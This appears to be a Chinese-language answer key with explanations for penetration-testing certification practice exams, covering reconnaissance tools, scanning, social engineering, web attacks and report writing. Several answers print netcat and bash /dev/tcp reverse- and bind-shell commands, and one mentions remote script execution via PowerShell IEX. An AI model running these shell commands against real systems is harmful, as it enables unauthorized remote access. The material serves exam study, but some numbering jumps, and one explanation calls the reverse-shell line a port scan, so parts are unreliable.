**计算机应急响应小组** 专注于安全漏洞和拒绝服务事件，提供警报、事件处理和规避指南。CERT 还开展持续的公众意识宣传活动，并从事旨在改进安全系统的研究。

### 37. A

**通用攻击模式枚举与分类 (CAPEC)** 列表是一种资源，旨在帮助识别和记录攻击及攻击模式。用户可以按机制或域搜索攻击，然后按各种属性和先决条件分解每个攻击。CAPEC 还建议解决方案和缓解措施，这在编写渗透测试报告时识别控制措施很有用。

### 38. A

**Censys** 是一种基于 Web 的工具，用于探测给定的 IP 地址。它是一个搜索引擎，帮助渗透测试人员发现、监控和分析可从互联网访问的设备。Censys 让研究人员能够查找特定主机，并创建关于设备、网站、证书和密码套件部署情况的汇总报告。

### 39. A

**Aircrack-ng** 是一套完整的工具，用于评估无线网络安全。它专注于 Wi-Fi 安全的不同领域：

*   **Monitoring（监控）**：数据包捕获和数据导出到文本文件，以便第三方工具进一步处理。
*   **Attacking（攻击）**：通过数据包注射进行重放攻击、取消认证、伪造接入点等。
*   **Testing（测试）**：检查 Wi-Fi 网卡和驱动程序功能。
*   **Cracking（破解）**：有线等效隐私（WEP）和 Wi-Fi Protected Access 2 – Pre-Shared Key（WPA PSK）。

### 40. D

**国家漏洞数据库 (NVD)** 是美国政府的标准库，基于使用 **安全内容自动化协议 (SCAP)** 表示的漏洞管理数据。该数据支持漏洞管理、安全度量和合规性的自动化。NVD 包括安全清单参考、安全相关的软件缺陷、错误配置、产品名称和影响指标的数据库。

### 41. B

在该场景中，客户要求你执行黑盒渗透测试。因为是黑盒测试，你很可能会将大部分时间花在信息收集和漏洞识别阶段。黑盒测试有时称为 `zero-knowledge` 测试，旨在复制外部攻击者会遇到的情况。测试人员不获得环境的访问权限或信息，因此他们必须收集信息、发现漏洞，并像攻击者一样在基础设施或系统中穿行。这对渗透测试人员来说可能很耗时。

### 42. D

**Whois** 是一种广泛使用的互联网记录列表，用于标识域名所有者及其联系方式。**互联网名称与数字地址分配机构 (ICANN)** 负责监管域名注册和所有权。Whois 记录被证明极其有用，并已发展成为维护域名注册和网站所有权流程完整性的重要资源。

### 43. B

发现扫描可识别网络上运行的操作系统，将这些系统映射到 IP 地址，并枚举这些系统上的开放端口和服务。发现扫描为渗透测试人员提供了一种自动化方式，以识别网络上存在的主机并构建资产清单。

### 44. D

凭据扫描需要目标服务器的只读访问权限。客户应遵循最小权限原则，限制测试人员可用的访问权限。你应该考虑要求创建一个具有类似只读访问权限的专用“审计”账户。专用“审计”账户的优势在于会出现在日志中，并被 IT 部门的每个人立即识别为潜在的批准活动。

### 45. D

代码测试通常使用静态或动态代码分析，以及模糊测试和故障注入等测试方法。代码更改并部署后，必须重新测试以确保更改未引入新的安全问题。由于在此场景中你仅审查代码，因此你将进行静态代码分析。静态代码分析（也称为源代码分析）通过审查应用程序的代码来完成。由于静态分析使用源代码，它可以被视为一种具有完全可见性的白盒测试类型。这可以让测试人员发现其他测试可能无法发现的问题。

### 46. B

**Dsquery.exe** 是一个命令行实用程序，用于查找 Active Directory 域中各种对象的信息。该实用程序在所有 Windows Server 版本中默认可用。`dsquery` 命令允许你查询 LDAP 目录以查找符合指定条件的对象。作为 `dsquery` 命令的一个属性，你需要指定要搜索的 AD 对象类型。在此场景中，你要查找过去 30 天内处于非活动状态的用户账户，因此你将使用 `dsquery user -inactive <NumWeeks>`。

### 47. D

约定的时间表以及测试可进行的时间，将对在高峰时段观察和测试客户系统产生最大影响。某些评估会安排在非关键时间段，以最大限度地减少潜在中断的影响；而其他评估可能安排在正常工作时间，以帮助测试组织对攻击的响应能力。

### 48. C 和 E

合规性扫描侧重于应用于系统的配置设置或安全加固。当对单个计算系统执行合规性扫描时，它会生成一份报告，定义该系统根据选定的合规性框架加固的程度。合规性扫描旨在定位和评估系统加固配置中的漏洞，而非定位软件应用程序或操作系统中的漏洞。在此场景中，既然你在网络上看到的资产比网络架构中提供的更多，你可以将其归因于有限的网络访问或存储访问。

### 49. C

完整扫描将提供更有用的结果，因为它包含更多测试。场景中没有要求测试人员避免被检测，因此隐蔽扫描并非必要。但因为这是黑盒测试，最好在网络上运行完整扫描。

### 50. A

凭据扫描是指扫描计算机在被扫描计算机上拥有一个账户，允许扫描程序进行更彻底的检查，查找网络视角可能看不到的问题。凭据扫描广泛用于企业漏洞管理计划，是在渗透测试时的有用工具。凭据扫描可能访问操作系统、数据库和应用程序。凭据扫描通常仅从目标服务器检索信息，不对服务器本身进行更改。

### 51. D

渗透测试期间，测试人员可能希望将扫描配置为隐蔽扫描。隐蔽扫描极力避免使用可能引起注意的测试。扫描导致的服务中断、错误消息和日志条目可能会引起网络安全团队的注意，导致他们以阻碍渗透测试的方式调整防御。使用隐蔽扫描能更好地模拟熟练攻击者的活动，从而产生更真实的渗透测试。

## 52. C

在该场景中，由于开放的是端口 23，这表明你所在的服务器是一台 Telnet 服务器。Telnet 是一种用户命令，也是一种用于访问远程计算机的底层 TCP/IP 协议。使用 Telnet，管理员或其他用户可以远程访问他人的计算机。Telnet 使用命令行界面。Telnet 服务器与客户端之间传输的信息以未加密形式发送。这意味着任何认证信息也可能被捕获。

## 53. B

在该场景中，渗透测试人员发现的所有端口都与 Web 相关。因此，此问题的答案是：敏感信息可能在 Web 服务器上泄露，因为这些是在漏洞扫描期间指示的端口。

*   端口 21 是 TCP/FTP，即控制端口。
*   端口 80 是 TCP/HTTP，用于传输网页。
*   端口 443 是 TCP/HTTPS，即基于 TLS/SSL 的 HTTP 协议，用于加密传输。

## 54. D

误报是指系统错误地将生物特征样本判定为匹配。生物特征传感器由于多种原因有时会出错。识别过程将呈现给系统的生物特征（如指纹或虹膜扫描）与数据库中的所有条目进行比对以寻找匹配。这被称为 `one-to-many` 搜索。活体生物特征会因年龄、气候或手指可能的受伤而发生变化。供应商将这些阈值设置称为误接受率（FAR）和误拒率（FRR）。

## 55. B

误报是在某些评估过程中出现的一种错误，即被测试的条件被错误地判定为已检测到。扫描器可能没有足够的访问权限来确认目标系统上的漏洞，或者其插件中可能存在生成错误漏洞报告的错误。当扫描器报告一个不存在的漏洞时，这被称为 `false positive error`。

## 56. A

通用漏洞评分系统（CVSS）是一个用于评估安全漏洞严重程度的框架。CVSS 使用算法确定三个严重程度评分：基础分、时效分和环境分。评分为数值，范围从 0.0 到 10.0。最严重为 10.0。根据 CVSS，0.0 分为“无”级，0.1–3.9 分为“低”严重级，4.0–6.9 分为“中”严重级，7.0–8.9 分为“高”严重级，9.0–10.0 分为“严重”级。在该场景中，得分为 3.6，属于“低”类别。

## 57. A

字典攻击是一种通过将字典中的每个单词作为密码彻底尝试，从而闯入受密码保护的计算机或服务器的方法。字典攻击之所以有效，是因为许多计算机用户使用普通单词作为密码。字典攻击依赖于预构建的单词字典。在许多情况下，渗透测试人员可以根据知识向字典文件添加额外的特定字典条目，以用于其渗透测试；这在执行字典攻击时可能很有帮助。在该场景中，渗透测试人员利用社交媒体查找可能有利于字典攻击的额外关键词。

## 58. C

在该场景中，由于客户的员工使用字典单词作为密码，最好的防御方法是增加密码长度并添加特殊字符。密码中使用的特殊字符是标准美式键盘上存在的一系列标点字符。这些包括 `!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~`。这将使攻击者更难闯入客户的系统。

## 59. D

当目标平台位于不同架构上时，会使用交叉编译代码。测试人员可能无法在目标机器上访问编译器，或者可能需要从主工作站编译用于漏洞利用的代码，而主工作站的架构与目标不同。

## 60. A and B

彩虹表通过执行查找而非尝试暴力破解，提供了一种攻击哈希密码的强大方式。彩虹表是给定密码要求下所有可能密码的预计算列表，该列表随后基于已知的哈希算法（如 MD5）进行了哈希处理。彩虹表用于反向攻击哈希密码。彩虹表通常仅是一种离线攻击。它比任何其他形式的攻击使用的计算周期都少。暴力破解攻击是一种通过尝试错误方法尝试破解密码或用户名的攻击，攻击者提交许多密码或短语，有机会最终正确猜中密码。

## 61. A

彩虹表是给定密码规则下所有可能密码的预计算哈希列表。彩虹表工具将哈希与先前计算的哈希进行比较，后者匹配已知的密码值。这是通过相当快的数据库查找完成的，即使哈希不可逆，也允许“破解”哈希密码。密码文件是哈希值的列表。

## 62. A

物联网（IoT）是指连接到互联网的物理产品和设备的网络。制造商和开发人员希望将成本最小化以增加利润。因此，安全性通常不是产品或设备的关键特性。因此，与网络上的任何其他设备一样，IoT 设备可能存在安全漏洞，并可能遭受基于网络的攻击。

## 63. D

SNMP 暴力破解攻击通过 SNMP 查询攻击 IP 地址，以确定 SNMP 只读和读写团体字符串（或密码）。它通过尝试每个可能的密码来实现这一点。由 SNMP 创建的主信息库（MIB）数据库包含网络上每个设备的重要信息。如果测试人员能破解 SNMP 上的密码，他们可能能够控制每个联网设备。这将允许从更改配置到使设备脱机的操作。

## 64. C

在该场景中，唯一不属于制造范畴的是实时操作系统（RTOS）。RTOS 是指旨在服务于实时应用程序的任何操作系统，这些应用程序在数据到来时进行处理，通常没有缓冲延迟。工业控制系统（ICS）是一个用于描述不同类型控制系统及相关仪表的术语，包括用于操作和/或自动化工业过程的设备、系统、网络和控制。监控与数据采集（SCADA）系统用于监控和控制广泛行业中的生产过程，包括制造、水处理、采矿、石油提炼、交通运输和电力分配。可编程逻辑控制器（PLC）是一种工业固态计算机，用于监控输入和输出，并为自动化过程或机器做出基于逻辑的决策。PLC 是一种工业数字计算机，已针对制造过程的控制进行了调整，例如装配线、机器人设备，或任何需要高可靠性控制、易于编程和过程故障诊断的活动。

## 65. B

审讯（也称为 `questioning`）是为了获取有用信息而对个人进行的面谈。审讯可能涉及各种技术，范围从与个人建立联系到酷刑。使用这种技术时，恐惧可作为一种激励因素。然而，渗透测试人员通常不使用这种技术。

## 66. A

社会工程学的目标是人而非计算机，它依赖个人或群体违反安全程序、策略和规则。社会工程学可以当面实施、通过电话、短信或电子邮件进行。在该场景中，攻击者利用了社会工程学的**权威**原则。他们希望财务部的 Sue 收到一封来自公司总裁的电子邮件后，不会提出任何疑问，直接进行转账。权威原则基于这样一种信念：人们倾向于服从权威人物，即使被要求做出违背意愿的行为。

## 67. A

冒充是指伪装成另一个人以获取设施或资源的访问权限。这可能简单到仅声称是员工，也可能复杂到穿着制服并出示假的公司工牌。在该场景中，攻击者致电服务台技术人员，假装是一名员工。

## 68. C

社会工程学工具包（`SET`）为自动化社会工程学流程提供了一个框架，包括发送鱼叉式网络钓鱼消息、托管虚假网站和收集凭据。社会工程学在许多攻击中扮演着重要角色。`SET` 是一个菜单驱动的社会工程学攻击系统。在该场景中，渗透测试人员正在尝试进行鱼叉式网络钓鱼攻击。

## 69. C

语音钓鱼（Vishing）是通过电话系统实施的社会工程学攻击。网络钓鱼攻击的目标是窃取敏感信息，如密码、用户名或信用卡信息。语音钓鱼的原理类似于网络钓鱼，但使用语音技术实施。语音钓鱼攻击可以通过语音邮件、IP 语音（`VoIP`）、固定电话或移动电话进行。在该场景中，由于总裁接到了电话，因此这是一起语音钓鱼攻击。

## 70. B

链路本地多播名称解析（`LLMNR`）和 NetBIOS 名称服务（`NetBIOS-NS`）投毒可使渗透测试人员获得中间人位置，从而扩大其获取访问权限和信息的能力。Windows 网络中最常被攻击的服务之一是 NetBIOS。NetBIOS 通常用于文件共享。

## 71. D

ARP 欺骗是一种攻击者向局域网发送伪造的地址解析协议（`ARP`）消息的技术。通常其目的是将攻击者的媒体访问控制（`MAC`）地址与另一台主机（如默认网关）的 IP 地址关联起来，导致发往该 IP 地址的任何流量被发送给攻击者。ARP 欺骗可能允许攻击者拦截网络上的数据帧、修改流量或中断所有流量。

## 72. A

中间人攻击是指双方的通信被外部实体拦截。中间人攻击是一种常见的网络安全攻击，允许攻击者窃听两个目标之间的通信。攻击发生在两个合法通信主机之间，允许攻击者“监听”对话。

## 73. A

在该场景中，你需要获取客户无线设备使用的频段和频率，以便开展无线渗透测试。无线设备可能在多个频段和频率上运行，但了解确切的频段和频率将允许渗透测试人员按要求进行无线渗透测试。

## 74. C

降级攻击是一种攻击形式，测试人员强制网络通道切换到安全性较低或无保护的数据传输标准。协议降级是中间人攻击的一个组成部分，用于拦截加密流量。降级攻击通过导致客户端和服务器使用安全性较低的协议来生效。在该场景中，既然你试图捕获所有未加密的 Web 流量，你会想要实施 HTTP 降级攻击。

## 75. C

蓝杰克（Bluejacking）是指攻击者通过蓝牙设备发送未经请求的消息。蓝杰克是一种黑客方法，允许个人在一定半径内向启用蓝牙的设备发送匿名消息。首先，黑客使用支持蓝牙的设备扫描周围环境，搜索其他设备。然后，黑客向检测到的设备发送未经请求的消息。

## 76. B

在该场景中，输入了一条命令，攻击者试图访问 `/etc` 目录中的密码文件。命令注入是一种攻击，其目标是通过易受攻击的应用程序在主机操作系统上执行任意命令。当应用程序将不安全的用户提供的数据（表单、Cookie、HTTP 标头等）传递给系统 Shell 时，命令注入攻击成为可能。

## 77. B

跨站脚本（`XSS`）攻击发生在 Web 应用程序允许攻击者执行 HTML 注入、将自己的 HTML 代码插入网页时。在该场景中，攻击者试图使用 Web 浏览器通过 JavaScript 代码操纵 HTML iframe。

## 78. C

获取对主机、系统或应用程序访问权限的首要步骤之一是枚举用户名。一旦猜出用户名，就可以尝试有针对性的基于密码的攻击。RID 循环攻击尝试通过空会话枚举用户账户。如果测试人员指定了密码文件，枚举完成后将自动尝试暴力破解用户账户。因此，在该场景中，尝试 RID 循环将是测试人员下一步应尝试的操作。

## 79. E 和 F

鉴于该场景，客户将希望对 SQL 语句使用黑名单和白名单验证。SQL 注入是一种常见的攻击途径，它使用恶意 SQL 代码操纵后端数据库以访问本不打算显示的信息。SQL 注入是最常见的 Web 黑客技术之一。黑名单验证根据一组已知的恶意输入测试外部输入。白名单验证根据一组已知的、批准的输入测试外部输入。通过白名单输入验证，应用程序确切知道需要什么并拒绝其他输入。

## 80. B

在该场景中，`..` 操作符是攻击者试图进行目录遍历攻击的明显标志。此特定攻击旨在跳出 Web 服务器的根目录，访问服务器上的 `/etc/passwd` 文件。目录遍历攻击是一种 HTTP 攻击，允许攻击者访问受限目录并在 Web 服务器根目录之外执行命令。

# 第 7 章：模拟考试 2

## 1. A


TCP SYN 洪水攻击（也称为 SYN 洪水）是一种拒绝服务（`DoS`）攻击形式，测试人员向目标系统发送一系列 SYN 请求，试图消耗足够的服务器资源，使系统对合法流量无响应。这利用了正常 TCP 三次握手的一部分，消耗目标服务器上的资源并使其无响应。

## 2. D

存储型跨站脚本（`XSS`）是最危险的跨站脚本类型。允许用户存储数据的 Web 应用程序可能暴露于此类攻击。存储型 XSS 发生在 Web 应用程序收集用户输入（可能是恶意的），然后将该输入存储在数据存储中以供后续使用时。

## 3. B

HTML 表单可以在 `<form>` 元素中使用 `method="POST"` 或 `method="GET"`（默认）。指定的方法决定了表单数据如何提交给服务器。使用 GET 时，参数会保留在浏览器历史记录中，因为它们成为 URL 的一部分。使用 POST 时，参数不会保存在浏览器历史记录中。与 POST 相比，GET 的安全性较低。

## 4. D

当代码段的安全性取决于系统内事件发生的顺序时，就会出现竞争条件。检查时间到使用时间（`TOCTTOU`）问题是一种竞争条件，当程序在资源请求发生前过早地检查访问权限时就会出现此问题。

## 5. A

网站使用 `HTTP` Cookie 来随时间维持会话。如果测试人员能够获取用户会话 Cookie 的副本，则他们可以使用该 Cookie 模拟用户的浏览器并劫持已认证的会话。能够获取用于认证用户 Web 会话的会话 Cookie 的攻击者可以劫持该会话并控制用户的账户。用于认证的 Cookie 应始终被安全地创建，且仅通过安全的加密通信通道传输。

## 6. A

社会工程学的攻击目标是人而非计算机，它依赖个人或群体违反安全程序、策略和规则。社会工程学攻击可以当面实施、通过电话、短信或电子邮件进行。在该场景中，攻击者利用了社会工程学的权威原则。权威原则基于这样一种信念：人们倾向于服从权威人物，即使被要求做出违背意愿的行为。

## 7. D

`pty` 模块允许渗透测试人员生成一个伪终端，从而欺骗 `su` 等命令。`Nmap` 可识别客户端系统上运行的设备、发现可用的主机和服务、找出开放端口并检测安全风险。在该场景中，客户端未禁用 `Telnet`，因为端口 23 仍然开放。`Telnet` 是一种基于可靠面向连接传输的客户端-服务器协议。通常，该协议通过使用端口 23 建立到传输控制协议（`TCP`）的连接，此时 `Telnet` 服务器应用程序（`telnetd`）正在监听。

## 19. C

`Hping` 是一款命令行工具，允许测试人员生成网络流量。`Hping` 之所以流行，是因为它允许你创建自定义数据包。在该场景中，你将向 `TCP` 端口 80 发送 `TCP` SYN 包。`-S` 开关指示 `hping` 发送 `SYN` 流量，`-V` 开关启用详细模式，`-p` 开关指定端口。

## 20. A

`Nmap` 是最常用的命令行漏洞扫描器，是一款免费的开源工具。它提供广泛的功能，包括多种旨在绕过防火墙和其他网络保护设备的扫描模式。`Nmap` 是一款端口扫描器。要扫描端口，你需要使用 `-p <端口范围>`（仅扫描指定端口）。此选项指定你想要扫描的端口并覆盖默认扫描。单个端口号或范围均可接受。范围用连字符分隔（例如 1–1023）。范围的起始和/或结束值可以省略，这将导致 `nmap` 分别使用 1 和 65535。因此，你可以指定 `-p-` 来扫描 1 到 65535 的端口。对系统进行端口扫描只需安装 `nmap` 并提供目标系统的主机名或 IP 地址。

## 21. A 和 F

Nmap 最著名的功能之一是利用 TCP/IP 协议栈指纹识别进行远程操作系统检测。Nmap 向远程主机发送一系列 TCP 和 UDP 数据包并检查响应。

*   `-iL <inputfilename>`：从主机/网络列表中读取输入。
*   `-sV`：探测开放端口以确定服务/版本信息。

## 22. D

被动侦察也称为开源情报 (`OSINT`)。被动侦察的思路是仅利用公开可用的资源收集有关目标的信息。**Shodan** 是一个专门的搜索引擎，它通过使用各种过滤器，提供连接到互联网的特定类型计算机和设备的发现功能。**Peach** 是一款模糊测试工具，**OpenVAS** 执行网络漏洞扫描，而 **CeWL** 是一个自定义字典生成器，它搜索网站以查找可能用于密码猜测攻击的关键词。

## 23. D 和 F

在此场景中，最佳选项是 **SSH** 和 **Wireshark**。**Secure Shell (SSH)** 在系统之间提供安全的加密连接。**SSH** 通过加密连接提供远程 Shell 访问。**SSH** 用于对系统进行安全的命令行访问，通常通过 TCP 端口 22，并存在于各种类型的设备和系统上。由于 **SSH** 非常普遍，测试提供 **SSH** 服务的系统对渗透测试人员来说是一个非常有吸引力的选项。**Wireshark** 是一款协议分析器，允许渗透测试人员窃听和剖析网络流量。**Wireshark** 还允许从无线网络捕获网络流量。

## 24. A

**Netcat** 可在几秒钟内建立一个 **Telnet** 服务器。你可以使用 `-e` 参数指定 **Netcat** 在连接成功时运行的 Shell。在此场景中，正确的语法应为 `nc -lp 444 -e /bin/bash`。`nc` 告诉 Windows 使用以下参数运行 `nc.exe` 文件：

*   `-l`：指定监听模式，用于入站连接
*   `-p`：指定用于监听连接的端口
*   `-e`：指定端口连接后要运行的程序（`cmd.exe`）
*   `-v`：详细模式，在标准错误输出上打印消息，例如连接发生时

## 25. D

**Responder** 是一个工具包，用于响应网络上 Windows 系统发出的 **NetBIOS** 查询。在利用 **NetBIOS** 响应时，**Responder** 是一个强大的工具。它可以针对单个系统或整个本地网络，允许你分析或响应 **NetBIOS** 名称服务，伪装成查询所针对的目标系统。

## 26. C 和 E

有各种工具可协助此 **OSINT** 收集工作：

*   **Censys** 是一个基于 Web 的工具，它探测互联网上的 IP 地址，然后通过搜索引擎为渗透测试人员提供对该信息的访问。
*   **Fingerprinting Organizations with Collected Archives (FOCA)** 是一个开源工具，用于在 Office 文档、PDF 和其他常见文件格式中查找元数据。
*   **Maltego** 是一款商业产品，协助可视化从 **OSINT** 工作中收集的数据。
*   **Nslookup** 工具有助于识别与组织关联的 IP 地址。
*   **Recon-ng** 是一个模块化的 Web 侦察框架，用于组织和管理 **OSINT** 工作。
*   **Shodan** 是一个专门的搜索引擎，从公开来源提供对易受攻击的 **物联网设备** 的发现功能。
*   **theHarvester** 搜刮搜索引擎和其他资源，以查找电子邮件地址、员工姓名以及组织的基础设施详细信息。
*   **Whois** 工具从关于域名所有权的公开记录中收集信息。

## 27. A

**Impacket** 是一组用于处理网络协议的 **Python** 类。**Impacket** 提供了广泛的工具，包括在捕获哈希后使用哈希进行身份验证的能力。**Metasploit** 的 **SMB** 捕获模式、**Responder** 和 **Wireshark** 都可以从广播中捕获 **SMB** 哈希，但在此场景中，你还需要在捕获消息后使用哈希进行身份验证的能力。

## 28. B

在凭证暴力破解攻击中，测试人员将尝试使用每一个用户名和密码登录应用程序。**Hydra** 是一款暴力破解工具，可通过密码猜测破解系统。

## 29. B 和 C

**nmap** 和 **hping** 实用程序可用于主动枚举和指纹识别目标系统。**Hping** 是一个命令行工具，允许测试人员人为生成网络流量。**Hping** 之所以流行，是因为它允许你创建自定义数据包。**Nmap** 是最常用的命令行漏洞扫描器，是一款免费的开源工具。它提供广泛的功能，包括多种旨在绕过防火墙和其他网络保护设备的扫描模式。**Whois** 是一个从域名所有权的公开记录中收集信息的工具。**Aircrack-ng** 提供进行重放攻击和解除认证攻击的能力，并可充当伪造接入点。

## 30. C

通过在命令行运行 `msfconsole` 来启动 **Metasploit**。`msfconsole` 位于 `/usr/share/metasploit framework/msfconsole` 目录中。

## 31. B

**Mimikatz** 是一个开源实用程序，它使用其 `sekurlsa` 模块，能够从 **Windows 本地安全机构子系统服务 (LSASS)** 查看凭证信息，其中包括明文密码和 **Kerberos** 票据，随后可用于哈希传递和票据传递等攻击。然而，在此场景中，问题陈述了“over the wire”（通过网络传输/在线）。**Mimikatz** 是唯一无法以那种方式使用的工具。

## 32. C

**Hydra** 设计为支持将 **NTLM** 哈希作为密码。**Hashcat** 是一款密码破解和恢复工具。**Drozer** 是一个用于 **Android** 安全评估的框架。**Kismet** 是一个 **802.11** 第 2 层无线网络探测器、嗅探器和入侵检测系统。**Hydra**，通常称为 **thc-hydra**，是一款暴力字典攻击工具，设计用于针对多种协议和服务。

## 33. A

**浏览器利用框架** 专为此类攻击而设计。**BeEF** 提供了一个自动化工具包，利用社会工程学接管客户端的 Web 浏览器。然后你可以使用各种网络钓鱼和社会工程学技术诱导员工访问该网站。

## 34. A

**自定义字典生成器** 是一个 **Ruby** 应用程序，允许测试人员根据 URL 和深度设置搜刮网站，然后根据找到的文件和网页生成字典。针对目标组织的网站运行 **CeWL** 有助于生成自定义字典。如果你已收集到大量关于目标组织的信息，构建自定义字典将特别有用。

## 35. D

在此场景中，问题明确指出“名称解析请求”。在这种情况下，**Responder** 是最佳选择。**Responder** 是一个工具包，用于响应网络上 Windows 系统发出的 **NetBIOS** 查询。**Tcpdump** 是一种数据包分析器软件工具，用于监控和记录网络与其运行所在计算机之间传递的 **TCP/IP** 流量。**Ettercap** 是一款免费开源的网络安全工具，用于对 **LAN** 进行中间人攻击。**Medusa** 是一款暴力登录攻击工具，支持多种协议和服务。

## 36. B

**Shodan** 是一个流行的安全搜索引擎，提供预构建的搜索以及工业控制系统、数据库和其他常见搜索查询的搜索类别。**Shodan** 是一个搜索引擎，允许用户使用各种过滤器查找连接到互联网的特定类型计算机和设备。有人将其描述为服务横幅的搜索引擎，横幅是服务器发回给客户端的元数据。将 **Shodan** 用于渗透测试需要具备一些横幅的基础知识，包括 **HTTP** 状态码。

## 37. A

与 Shodan 类似，Censys 是一个面向安全的搜索引擎。当你在 Censys 中深入挖掘某个主机时，如果可用，你还将发现其地理 IP 信息，以及该主机暴露的服务的综合摘要，从而提供更详细的信息。GeoIP 是指通过识别计算机终端的 IP 地址来定位该终端地理位置的方法。

## 38. C

Sqlmap 是一款开源工具，用于自动化针对带有数据库后端的 Web 应用程序的 SQL 注入攻击。Sqlmap 是一款常用的开源数据库漏洞扫描器，允许安全管理员探测 Web 应用程序中的数据库漏洞。对于此场景，Sqlmap 是一款专用的数据库漏洞扫描器，也是最合适的工具。

## 39. C

Netcat 是一款开源的网络调试和探索实用程序，它使用 TCP/IP 协议跨网络连接读取和写入数据。Netcat 也是一款流行的远程访问工具，且占用空间小，这使得它在渗透测试期间易于移植到许多系统上。在 Linux 上使用 netcat 设置反向 Shell 的样子如下：

```
nc [远程系统的 IP] [端口] -e /bin/sh
```

*   在 Windows 上使用 netcat 设置反向 Shell 的样子如下：

    ```
    nc [远程系统的 IP] [端口] -e cmd.exe
    ```

*   使用以下命令将 netcat 设置为监听器也相当容易：

    ```
    nc -l -p [端口]
    ```

## 40. B 和 C

Netcat 是一款开源的网络调试和探索实用程序，它使用 TCP/IP 协议跨网络连接读取和写入数据。Netcat 也是一款流行的远程访问工具，且占用空间小，这使得它在渗透测试期间易于移植到许多系统上。在 Linux 上使用 netcat 设置反向 Shell 的样子如下：

```
nc [远程系统的 IP] [端口] -e /bin/sh
```

*   在 Windows 上使用 netcat 设置反向 Shell 的样子如下：

    ```
    nc [远程系统的 IP] [端口] -e cmd.exe
    ```

*   使用以下命令将 netcat 设置为监听器也相当容易：

    ```
    nc -l -p [端口]
    ```

*   Ncat 旨在作为 Netcat 的继任者，具有相同的功能，包括各种额外功能，例如使用 SSL、代理，以及发送电子邮件或将 Ncat 会话串联在一起作为链的一部分以允许跳板等技巧。

## 41. C

Responder 是一个工具包，用于响应网络上 Windows 系统的 NetBIOS 查询。Responder 在利用 NetBIOS 响应时是一个强大的工具。它可以针对单个系统或整个本地网络，允许你分析或响应 NetBIOS 名称服务，伪装成查询所针对的目标系统。Responder 利用对服务响应的信任，告诉客户端 Responder 主机是合法的服务提供商，导致客户端发送其哈希凭据，随后 Responder 主机的所有者可以使用这些凭据向合法服务器进行身份验证。

## 42. B

在此场景中，你正在使用条件执行，因此只会执行一个子句。所以，在这种情况下，`if` 子句后面的代码将执行，导致 `elif` 或 `else` 子句无法执行。条件执行允许开发人员编写仅在满足特定逻辑条件时才执行的代码。最常见的条件执行结构是 `if.. then ..else` 语句。

## 43. B 和 C

鉴于此场景，脚本中不需要包含单词 `let`，因此可以将其移除，并且在 Bash 中，`=` 的等价物是 `-eq`，即算术二元运算符。完成这些修改后，脚本将按预期工作。

## 44. A

PowerShell 在赋值操作中要求在数组名称前使用 `$`。然后将数组元素作为逗号分隔的列表提供。选项 B 适用于 Bash，选项 C 适用于 Ruby 或 Python，而选项 D 不符合 PowerShell 命令的正确语法。PowerShell 在声明和使用变量方面要简单得多。你只需记住在变量名前加上 `$`，无论是用于设置、更改还是检索存储在该变量中的值。

## 45. A

你将需要创建一个 Netcat 监听器，等待来自目标机器的入站 Shell。要获取 Shell，Netcat 使用 `nc -nvlp 443` 来监听传入连接。使用此语法，你是在告诉 Netcat (`nc`) 不要解析名称 (`-n`)、详细输出连接发生时的信息 (`-v`)，并在给定的本地端口 (`-p`) 上监听 (`-l`)。

## 46. A

在此场景中，给定的 PowerShell 命令将执行远程脚本。通过使用 PowerShell `IEX` 命令，它将调用一个表达式。`IEX` cmdlet 将指定字符串作为命令进行求值或运行，并返回表达式或命令的结果。PowerShell `Invoke-Command` cmdlet 在本地或远程计算机上运行命令，并返回来自命令的所有输出，包括错误。通过使用单个 `Invoke-Command` 命令，你可以在多台计算机上运行命令。

## 47. A

反向 Shell 在端口上打开一个通信通道并等待传入连接。客户端的机器充当服务器并发起到测试者机器的连接。这是通过使用以下方式完成的：

*   ```
    bash -i >& /dev/tcp/<目标 IP>/443 0>&1
    ```

*   鉴于这些选项，选项 A 是最佳选项。选项 B 和 C 将无法工作，因为它们使用的是 `<源 IP>` 而不是 `<目标 IP>`，而选项 D 不正确，因为它使用了不正确的语法。

## 48. A

在 Bash shell 中，可以打开一个网络套接字以通过它传递数据。可以使用 `/dev/tcp/<主机>/<端口>` 打开 TCP 套接字。Bash 正尝试打开到相应套接字的 TCP 连接。因此，在此示例中，已执行端口扫描。

*   以下是代码细分：

*   `/bin/bash -i`：调用交互式 Bash shell。
*   `>&/dev/tcp/<主机>/<端口>`：将该 shell 通过管道传输给测试者。
*   `0<&1 2>&1`：获取标准输入并将其连接到标准输出。它对标准错误 (`2>`) 做同样的处理。

## 49. C

在此场景中，将客户组织的风险承受能力放入执行摘要中非常重要。风险承受能力基本上是指组织在其投资方面愿意承担多少风险。对于任何类型的投资，总是存在风险，但一个人能承受多少风险就是他们的风险承受能力。这对每个组织可能都不同。你无法给风险承受能力设定一个固定值。

## 50. D


# 执行摘要

执行摘要不应包含技术细节。执行摘要是报告中最重要的部分。它应该以一种清晰的方式传达报告的所有重要结论，这种方式应使用“大白话”撰写。你应该用通俗易懂的语言解释发现了什么，并用客户能理解的术语描述对业务的风险。

## 51. C

通用漏洞评分系统 (`CVSS`) 是评估安全漏洞严重程度的行业标准。它提供了一种根据各种指标对每个漏洞进行评分的技术。安全分析师经常使用 `CVSS` 评级来确定响应行动的优先级。每个指标都会获得一个描述性等级和一个数值分数。

## 52. B

在此场景中，问题陈述渗透测试人员正在编写一份“概述总体风险水平”的报告。鉴于此陈述，测试人员将把此信息包含在执行摘要中。执行摘要是报告中最重要的部分。它应该以一种清晰的方式传达报告的所有重要结论，这种方式应使用“大白话”撰写。测试人员应该用通俗易懂的语言解释发现了什么，并用客户能理解的术语描述对业务的风险。

## 53. A

在该场景中，问题询问安全分析师首先应该做什么。一旦识别出漏洞，你需要对风险及其对组织的影响进行评级。该评级将决定是否可以安全地继续工作，或者是否需要采取额外的控制措施来降低或消除风险。评级取决于事件发生的可能性和漏洞的严重性。

通用漏洞评分系统（`CVSS`）是一个用于评估安全漏洞严重程度的框架。`CVSS` 使用算法来确定三个严重程度评分：`Base`（基础分）、`Temporal`（时效分）和 `Environmental`（环境分）。评分为数值，范围从 `0.0` 到 `10.0`。最严重的是 `10.0`。根据 `CVSS`，`0.0` 分为 `None`（无）级别，`0.1–3.9` 分为 `Low`（低）严重级别，`4.0–6.9` 分为 `Medium`（中）级别，`7.0–8.9` 分为 `High`（高）级别，`9.0–10.0` 分为 `Critical`（严重）级别。在该场景中，得分为 `10.0`，属于 `Critical` 类别。

## 54. A

